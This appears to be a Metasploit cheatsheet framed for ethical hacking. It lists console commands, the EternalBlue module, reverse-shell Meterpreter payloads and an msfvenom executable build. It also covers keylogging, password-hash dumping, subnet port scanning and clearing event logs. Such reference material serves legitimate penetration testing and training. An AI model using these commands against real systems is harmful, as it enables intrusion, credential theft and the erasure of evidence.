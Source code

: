 
# Metasploit Cheatsheet for Ethical Hacking

## Table of Contents

* [Getting Started](#getting-started)
* [Core Components](#core-components)
* [Common Commands](#common-commands)
* [Modules](#modules)
* [Payloads](#payloads)
* [Meterpreter Basics](#meterpreter-basics)
* [Post Exploitation](#post-exploitation)
* [Auxiliary Modules](#auxiliary-modules)
* [Database Usage](#database-usage)
* [Useful Tips](#useful-tips)

---

## Getting Started

```bash
msfconsole          # Launch Metasploit Framework console
msfupdate           # Update Metasploit
```

## Core Components

* **Exploit**: Code that takes advantage of a vulnerability
* **Payload**: Code executed after exploit succeeds (e.g., shell)
* **Auxiliary**: Scanners, fuzzers, etc. (non-exploit modules)
* **Post**: Modules for post-exploitation tasks
* **Encoders**: Obfuscate payloads

## Common Commands

```bash
search <term>                 # Search for modules
use <module>                  # Use a specific module
info                         # Get info on the module
show options                  # Show required options
set <opt> <val>               # Set value for an option
unset <opt>                   # Unset an option
show payloads                 # List compatible payloads
set PAYLOAD <payload>         # Set a payload
exploit / run                 # Launch the exploit/module
check                         # Check if the target is vulnerable
back                          # Exit current module
exit                          # Exit msfconsole
```

## Modules

### Types of Modules

```bash
exploit/windows/smb/ms17_010_eternalblue   # Exploit example
auxiliary/scanner/portscan/tcp             # Port scanner
post/windows/gather/enum_logged_on_users   # Post exploitation
```

### Finding Modules

```bash
search type:exploit name:ftp
search platform:windows
```

## Payloads

### Types of Payloads

* **Bind**: Opens a port on the target
* **Reverse**: Connects back to the attacker (common)

### Examples

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <port>
```

## Meterpreter Basics

```bash
sysinfo              # Get system info
getuid               # Show current user
shell                # Drop into a system shell
background           # Background session
sessions             # List active sessions
sessions -i <id>     # Interact with a session
upload <src> <dst>   # Upload file
download <src>       # Download file
screenshot           # Take a screenshot
keyscan_start        # Start keylogger
keyscan_dump         # Dump keystrokes
hashdump             # Dump password hashes
```

## Post Exploitation

```bash
use post/windows/gather/hashdump
set SESSION <id>
run

use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```

## Auxiliary Modules

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set THREADS 10
run
```

Other useful auxiliaries:

* `scanner/ftp/ftp_login`
* `scanner/http/title`
* `scanner/ssh/ssh_version`
* `scanner/smb/smb_version`

## Database Usage

```bash
db_status                # Check DB connection
workspace -a <name>     # Add new workspace
workspace <name>        # Switch workspace
hosts                   # Show scanned hosts
services                # Show discovered services
vulns                   # Show vulnerabilities
notes                   # Show notes added
loot                    # List loot
```

## Useful Tips

* Use `setg` to set global options across all modules:

```bash
setg LHOST <your_ip>
```

* Save output logs:

```bash
spool /path/to/output.txt
```

* Clean up after a session:

```bash
clearev     # Clear event logs
```

* Generate standalone payloads:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o payload.exe
```
